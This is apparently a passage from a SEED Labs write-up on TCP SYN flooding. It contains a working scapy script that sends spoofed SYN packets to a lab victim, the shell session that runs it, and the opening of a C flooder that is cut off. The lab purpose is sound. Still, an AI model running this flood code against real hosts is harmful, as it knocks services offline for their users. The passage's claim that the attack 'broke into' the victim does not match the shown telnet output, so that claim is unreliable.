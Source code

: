 ```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="10.9.0.5")                                # victim's IPv4 address
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src     = str(IPv4Address(getrandbits(32))) # source IP
    pkt[TCP].sport  = getrandbits(16)                   # source port
    pkt[TCP].seq    = getrandbits(32)                   # sequence number
    send(pkt, verbose=0)
```

The above Python program sends out spoofed TCP SYN packets, with randomly generated source IP address, source port, and sequence number. Run this program for at least one minute and then try to `telnet` into the victim machine:

```console
$ docker exec -it seed-attacker /bin/bash
root@ip-172-31-1-54:/# cd volumes
root@ip-172-31-1-54:/volumes# touch synflood.py
root@ip-172-31-1-54:/volumes# nano synflood.py
root@ip-172-31-1-54:/volumes# python3 synflood.py &
[1] 22
root@ip-172-31-1-54:/volumes# telnet 10.9.0.5
# telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
d19b63619cad login:
```

After a while, our attack successfully broke into the victim's machine.

#### Task 1.2: Launch the Attack Using C

Actually, it is more likely that our attack using the Python program would fail. Multiple issues could contribute to the failure of the attack. Other than the TCP cache issue, all the issues mentioned in the [lab instructions](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) for Task 1.1 can be resolved if we can send spoofed SYN packets fast enough. We can certainly achieve that using the following C program:

```c
/* synflood.c */
/* Compile with: gcc -o synflood synflood.c */
/* Run with: ./synflood 10.9.0.5 23 */
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

/* IP Header */
struct ipheader
{
    unsigned char      iph_ihl : 4,     // IP header length
                       iph_ver : 4;     // IP version
```

[^1]: Direction of flows is important if someone wants to configure asymmetric rules; that is, not all protocols require symmetric bandwidth.
[^2]: [https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/](https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/).
[^3]: This SYN backlog queue is also called "request socket queue." There is another backlog queue, maintained by the Linux kernel, called the accept queue. Once an ACK packet is received and validated, a new client connection is ready. This connection is moved into the accept queue, waiting for the application to call `accept()` and receive it. The `net.core.somaxconn` toggle specifies a network-system-wide maximum for the backlog of any socket; that is, it is not system global, but global to a Linux network namespace. Running in containers that have their own network namespaces, the value of `net.core.somaxconn` is set to the built-in kernel default. (More specifically, according to [the official documentation of Docker](https://docs.docker.com/engine/security/), all containers on a given Docker host are sitting on bridge interfaces, each of which gets its own network stack, meaning that a container does not get privileged access to the sockets or interfaces of another container.) When a larger backlog value is provided, the kernel silently caps it at the value of `net.core.somaxconn`. On our SEED VM, this value is `4096`. This [post](https://blog.cloudflare.com/syn-packet-handling-in-the-wild/) from Cloudflare and this [post](https://theojulienne.io/2020/07/03/scaling-linux-services-before-accepting-connections.html) from Theo Julienne provide very good explanations.
[^4]: [https://cr.yp.to/syncookies.html](https://cr.yp.to/syncookies.html).